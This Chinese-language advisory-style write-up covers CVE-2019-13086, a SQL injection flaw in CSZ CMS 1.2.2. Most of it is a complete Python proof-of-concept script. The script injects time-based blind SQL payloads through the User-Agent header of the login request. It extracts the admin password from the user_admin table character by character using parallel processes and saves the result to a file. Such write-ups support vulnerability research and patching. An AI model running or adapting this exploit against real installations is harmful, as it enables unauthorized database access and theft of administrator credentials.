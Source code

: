 （CVE-2019-13086）CSZ CMS 1.2.2 sql注入漏洞
===========================================

一、漏洞简介
------------

CSZ CMS是一套基于PHP的开源内容管理系统（CMS）。 CSZ CMS
1.2.2版本（2019-06-20之前）中的core/MY\_Security.php文件存在SQL注入漏洞。该漏洞源于基于数据库的应用缺少对外部输入SQL语句的验证。攻击者可利用该漏洞执行非法SQL命令。

二、漏洞影响
------------

CSZ CMS 1.2.2版本（2019-06-20之前）

三、复现过程
------------

### poc

    import requests
    import time
    import threading
    import multiprocessing

    pool="admin$ABCDEFGHIJKLMNOPQRSTUVWXYZ"+" "+"bcefghjklopqrstuvwxyz1234567890/."
    mutex=0

    #获取长度用的User-Agent模板
    ual="'-(if((length((select name from user_admin limit 1))=10),sleep(5),1))-'', '127.0.0.1','time') #"


    #"Why don't you just build something"
    #----------------------------------------------------获取管理员用户名长度--------------------------------------------
    def getlength(field,tbname,total):
        ual_head="'-(if((length((select "     #这些空格一定要保留
        ual_middle=" limit 1))="
        num=1
        ual_last="),sleep(5),1))-'', '127.0.0.1','time') #"

        datas={'email':'111@111.com',
            'password':'111'
        }
        
        header={'Host': 'localhost',
                'Content-Length': '74',
                'Cache-Control': 'max-age=0',
                'Origin': 'http://localhost',
                'Upgrade-Insecure-Requests': '1',
                'Content-Type': 'application/x-www-form-urlencoded',
                'User-Agent': ual,
                'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
                'Referer': 'http://localhost/cszcms/member/login',
                'Accept-Encoding': 'gzip, deflate',
                'Accept-Language': 'zh-CN,zh;q=0.9',
                'Connection': 'close'}

        starttime=time.time()
        for num in range(total):
            header['User-Agent']=ual_head+field+" from "+tbname+ual_middle+str(num)+ual_last
            #print(header['User-Agent'])
            sendtime=time.time()
            response=requests.post(r"http://localhost/cszcms/member/login/check/post",data=datas,headers=header)
            recvtime=time.time()

            doesitwork=recvtime-sendtime
            if(doesitwork>5):
                print("The length is",num)
                print("This step cost:",time.time()-starttime)
                return num
                break
            if(num==total-1):
                return 0

    #获取内容用的User-Agent模板
    ua="'-(if((ascii(substr((select name from user_admin limit 1), 1, 1))=97),sleep(5),1))-'', '127.0.0.1','time') #"
            
    #-----------------------------------------------------获取管理员用户名--------------------------------------------
    def getcontent(field,tbname,num,qr,lock):

        #print(num)
        pool="@.tescomadin$ABCDEFGHIJKLMNOPQRSTUVWXYZ"+" "+"bcefghjklpqrstuvwxyz1234567890/."
        
        result=[]
        
        ua_head="'-(if((ascii(substr((select "
        ua_front=" limit 1), "
        ua_middle=", 1))="
        char="A"
        ua_last="),sleep(5),1))-'', '127.0.0.1','time') #"

        datas={'email':'111@111.com',
            'password':'111'
        }
        
        header={'Host': 'localhost',
                'Content-Length': '74',
                'Cache-Control': 'max-age=0',
                'Origin': 'http://localhost',
                'Upgrade-Insecure-Requests': '1',
                'Content-Type': 'application/x-www-form-urlencoded',
                'User-Agent': ua,
                'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
                'Referer': 'http://localhost/cszcms/member/login',
                'Accept-Encoding': 'gzip, deflate',
                'Accept-Language': 'zh-CN,zh;q=0.9',
                'Connection': 'close'}
        
        for i in range(1):
            for char in pool:
                header['User-Agent']=ua_head+field+" from "+tbname+ua_front+str(num+1)+ua_middle+str(ord(char))+ua_last
                #print(header['User-Agent'])
                
                lock.acquire()
                sendtime=time.time()
                response=requests.post(r"http://localhost/cszcms/member/login/check/post",data=datas,headers=header)
                lock.release()
                
                recvtime=time.time()

                doesitwork=recvtime-sendtime
                if(doesitwork>5):
                    #print("It cost:",doesitwork)
                    print(num," got:",char)
                    #adminnamelist[num]=char    
                    result=[num,char]
                    qr.put(result)
                    break
        
    #---------------------------------------------现在！让我们重新揭起救世的大旗！------------------------------------

    if __name__=='__main__':

        qr=multiprocessing.Queue()
        lock=multiprocessing.Lock()
        
        field="password"
        tbname="user_admin"

        adminname=""
        adminpwd=""

        getresult=[]
        
        #调用获得长度的函数
        length=getlength(field,tbname,100)  
        print("length is",length)

        processes=[]


        #开线程分别对每个字符匹配
        timehead=time.time()

        for ti in range(length):
            processes.append(multiprocessing.Process(target=getcontent,args=(field,tbname,ti,qr,lock)))
            processes[ti].start()

        for ti in range(length):
            processes[ti].join()
            
        fout=open(field+"out.txt","w+")
        for ci in range(length):
            getresult.append(qr.get())
        print(getresult)
        for ci in range(length):
            for result in getresult:
                if(result[0]==ci):
                    print(result[1])
                    adminname+=result[1]
                    
        fout.write(adminname)
        print(field,":",adminname)
        fout.close()
        print("It took:",time.time()-timehead)
